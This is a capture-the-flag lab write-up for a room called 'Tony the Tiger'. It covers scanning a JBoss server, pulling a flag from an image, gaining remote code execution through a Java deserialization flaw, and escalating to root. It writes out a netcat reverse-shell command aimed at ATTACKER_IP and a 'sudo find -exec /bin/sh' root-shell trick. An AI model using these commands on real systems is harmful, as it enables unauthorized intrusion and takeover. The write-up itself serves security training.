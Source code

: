 # Tony the Tiger

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `strings`,  `Jboss`,  `Java deserialization`,  `find`

---

##### Written: 15/12/2021

##### IP address: 10.10.104.15

*The prompts for this room has been rewritten in this write-up for simplicity sake.*

---

### [ Reconnaissance ]

Let's start things off with a basic **nmap** scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22** (SSH), port **80** (HTTP) and port **8080** (HTTP).

The HTTP web server on port **80** contains a blog page:

<img style="float: left;" src="screenshots/screenshot1.png">

<br>

The HTTP web server on port **8080** contains a **JBoss** application server.

<img style="float: left;" src="screenshots/screenshot6.png">

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:

<img style="float: left;" src="screenshots/screenshot2.png">

Looks like there might be embedded data within the images on the site. Looking around, I managed to find **2** images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:

<img style="float: left;" src="screenshots/screenshot3.png">

All I had to do was run `strings` on it and we get Tony's flag within the output:

<img style="float: left;" src="screenshots/screenshot4.png">

---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:

<img style="float: left;" src="screenshots/screenshot5.png">

**exploit.py** uses the **ysoserial.jar** file in the file to launch a **remote code execution** attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

<br>

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

<br>

We can use this exploit to launch a reverse shell on the target machine.

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:

<img style="float: left;" src="screenshots/screenshot7.png">

And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I find out that there are **3** users:

<img style="float: left;" src="screenshots/screenshot8.png">

Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:

<img style="float: left;" src="screenshots/screenshot11.png">

This file contains the JBoss flag:

<img style="float: left;" src="screenshots/screenshot12.png">

---

### [ Escalation! ]

There is also another text file called **note**:

<img style="float: left;" src="screenshots/screenshot9.png">

Nice, we have jboss' password! Let's log into his account via SSH:

<img style="float: left;" src="screenshots/screenshot10.png">

If we look at jboss' **sudo privileges**:

<img style="float: left;" src="screenshots/screenshot13.png">

We see that jboss can run the `find` command as **root**!

<br>

**GTFOBins** (https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:

<img style="float: left;" src="screenshots/screenshot14.png">

All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```

<img style="float: left;" src="screenshots/screenshot15.png">

And just like that, we've opened a root shell.

The root flag can then be found in **/root**:

<img style="float: left;" src="screenshots/screenshot16.png">

It's **base64-encoded**, so let's decode it:

<img style="float: left;" src="screenshots/screenshot17.png">

We get what seems to be a **MD5 hash**. We can try cracking it using my go-to online hash cracker: https://hashes.com/en/decrypt/hash

<img style="float: left;" src="screenshots/screenshot18.png">

And we got the root flag!
